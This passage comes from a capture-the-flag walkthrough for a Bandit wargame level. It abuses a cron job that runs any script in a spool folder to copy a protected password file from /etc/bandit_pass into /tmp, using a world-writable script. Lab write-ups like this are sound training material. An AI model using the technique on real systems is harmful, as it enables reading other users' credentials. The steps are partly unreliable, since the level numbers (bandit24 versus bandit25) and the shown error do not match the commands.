 ```bash
    fi
done
```

We can see in the script that every 60 seconds it is executing all scripts in /var/spool/$myname/foo and then deleting them. 

Let's try to just print the output of /etc/bandit_pass/bandit24]

```bash
cat /etc/bandit_pass/bandit25
```

```bash
Output:
cat: /etc/bandit_pass/bandit24: Permission denied

```

yeah.. that would be too easy, but we have another way! using /var/spool/myname/foo and placing a script in there to read the password for us..

Lets start by creating a directory in /tmp we can work from


```bash
mkdir /tmp/shell-temp
```

Then we need to create our shellscript file

```bash
touch shellscript.sh
```

Then we need to change the permissions so everyone has read,write and executable permissions


```bash
chmod 777 shellscript.sh
```

And let write to our script using nano


```bash
nano shellscript.sh
```

What we are going to do is attempt to exploit how scripts are ran in /var/spool/$myname/foo by trying to output the bandit24 password and writing it to a file in our tmp directory

add the following line to your shell script


```bash
#! /bin/bash
cat /etc/bandit_pass/bandit25 > /tmp/shell-temp/password
```

save and exit.

Now we need to create the password file that this script is going to write to

